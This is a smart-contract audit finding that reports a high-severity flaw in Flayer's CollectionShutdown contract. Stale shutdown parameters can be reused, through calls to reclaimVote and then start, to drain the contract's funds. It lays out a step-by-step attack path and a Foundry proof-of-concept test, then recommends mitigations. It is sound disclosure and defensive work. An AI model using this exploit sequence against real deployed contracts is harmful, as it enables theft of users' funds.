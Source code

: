 Raspy Raspberry Tapir

High

# Stale shutdown params can be reused to drain all funds from `CollectionShutdown` contract

### Summary

When a collection is being shutdown via `CollectionShutdown` contract, the shutdown parameters are not properly cleaned up, and can be reused to mount an attack on the contract. In particular, a new collection can be created for the same ERC-721 contract, and then a shutdown may be started again via a particular sequence of calls: `reclaimVote` -> `start`. As  `CollectionShutdown` indexes all internal datastructures and external operations via the address of the ERC-721 contract, this leads to mixing the outdated shutdown parameters with the parameters of the new collection (in particular the old and the new collection token). Moreover, as attacker's balance of the new collection token is now used instead of the old one, the attacker can claim (via `voteAndClaim`) much more than was received from the token sale of the old collection, thus draining all contract funds.

### Root Cause

The execution logic of certain functions of `CollectionShutdown` is flawed; in particular:
  - Method [reclaimVote](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L356-L377) can be called _after_ the shutdown process started to execute;
  - Execution of method [start](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L135-L157) is guarded by the precondition `params.shutdownVotes == 0`, which can be made true by the above function `reclaimVote`. Besides that, `start` leaves stale data in `CollectionShutdownParams`.

### Internal pre-conditions

none

### External pre-conditions

none

### Attack Path

1. The attacker creates a collection for some ERC-721 contract
2. The attacker deposits an NFT, and receives 1 ether of collection token
3. The attacker starts collection shutdown from address(1)
4. Shutdown executed normally; some tokens are posted to Sudoswap for sale
5. The attacker buys NFTs for 100 ether
6. The attacker reclaims their vote, to enable starting the shutdown again
7. The attacker creates a new collection for the same ERC-721 contract; a new collection token is created by Locker
8. The attacker deposits an NFT, and receives 1 ether of the new collection token
9. The attacker starts collection shutdown again from address(1); this redirects collection token to the new one in shutdown params
10. The attacker deposits NFTs, and receives 11 ether of the new collection token to address(2)
11. Attacker votes and claims, reusing stale, partially updated shutdown params
12. There were 100 ether received from Sudoswap sale upon the first shutdown. As now the attacker claims with their balance of collectionToken2 == 11 ether, they receive 100 ether * 11 == 1100 ether, thus stealing 1000 ether.

### Impact

All funds are drained from the `CollectionShutdown` contract.

### PoC

Drop this test to [CollectionShutdown.t.sol](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/test/utils/CollectionShutdown.t.sol#L51) and execute with `forge test --match-test test_ReuseShutdownParamsToStealFunds`:

```solidity
function test_ReuseShutdownParamsToStealFunds() public {
    // Some initial balance of CollectionShutdown
    vm.deal(address(collectionShutdown), 1000 ether);

    // 1. The attacker creates a collection for some ERC-721 contract (done in the test setup)
    
    // 2. The attacker deposits an NFT, and receives 1 ether of collection token
    vm.startPrank(address(locker));
    collectionToken.mint(address(1), 1 ether);
    vm.stopPrank();

    // 3. The attacker starts collection shutdown from address(1)
    vm.startPrank(address(1));
    collectionToken.approve(address(collectionShutdown), 1 ether);
    collectionShutdown.start(address(erc721b));
    vm.stopPrank();

    // 4. Shutdown executed normally; some tokens are posted to Sudoswap for sale
    // Mint NFTs into our collection {Locker} and process the execution
    uint[] memory tokenIds = _mintTokensIntoCollection(erc721b, 3);
    collectionShutdown.execute(address(erc721b), tokenIds);
    // Mock the process of the Sudoswap pool liquidating the NFTs for ETH. 
    
    // 5. The attacker buys NFTs for 100 ether
    _mockSudoswapLiquidation(SUDOSWAP_POOL, tokenIds, 100 ether);
    
    // 6. The attacker reclaims their vote, to enable starting the shutdown again
    vm.startPrank(address(1));
    collectionShutdown.reclaimVote(address(erc721b));
    vm.stopPrank();

    // 7. The attacker creates a new collection for the same ERC-721
    locker.createCollection(address(erc721b), 'Test Collection', 'TEST', 0);
    // Initialize our collection, without inflating `totalSupply` of the {CollectionToken}
    locker.setInitialized(address(erc721b), true);
    // A new collection token is created by Locker
    ICollectionToken collectionToken2 = locker.collectionToken(address(erc721b));

    // 8. The attacker deposits an NFT, and receives 1 ether of the new collection token
    vm.startPrank(address(locker));
    collectionToken2.mint(address(1), 1 ether);
    vm.stopPrank();
    
    // 9. The attacker starts collection shutdown again from address(1)
    // This redirects collection token to the new one in shutdown params
    vm.startPrank(address(1));
    collectionToken2.approve(address(collectionShutdown), 1 ether);
    collectionShutdown.start(address(erc721b));
    vm.stopPrank();

    // 10. The attacker deposits NFTs, 
    // and receives 11 ether of the new collection token to address(2)
    vm.startPrank(address(locker));
    collectionToken2.mint(address(2), 11 ether);
    vm.stopPrank();

   // Get our start balances so that we can compare to closing balances from claim
    uint startBalanceAddress = payable(address(2)).balance;

    // 11. The attacker votes and claims, reusing stale, partially updated shutdown params
    vm.startPrank(address(2));
    collectionToken2.approve(address(collectionShutdown), 11 ether);
    collectionShutdown.voteAndClaim(address(erc721b));
    vm.stopPrank();

    // 12. There were 100 ether received from Sudoswap sale upon the first shutdown.
    // As now attacker claims with the balance of collectionToken2 == 11 ether,
    // they receive 100 ether * 11 == 1100 ether, thus stealing 1000 ether
    assertEq(payable(address(2)).balance - startBalanceAddress, 1100 ether);
}
```

### Mitigation

- Disallow calling `reclaimVote` at any point in time after the shutdown can be executed.
- In `start`, properly clean up all `CollectionShutdownParams`.

Additionally, we recommend for the `CollectionShutdown` contract to index both internal datastructures and external functions not with the address of an ERC-721 contract, but with the address of a collection token contract. This will help to clearly differentiate between various reincarnations of the same ERC-721 contract as different collections / collection tokens, as well as to enable cleanly shutting down the collection even if some operations are still performed with the ERC-721 tokens.
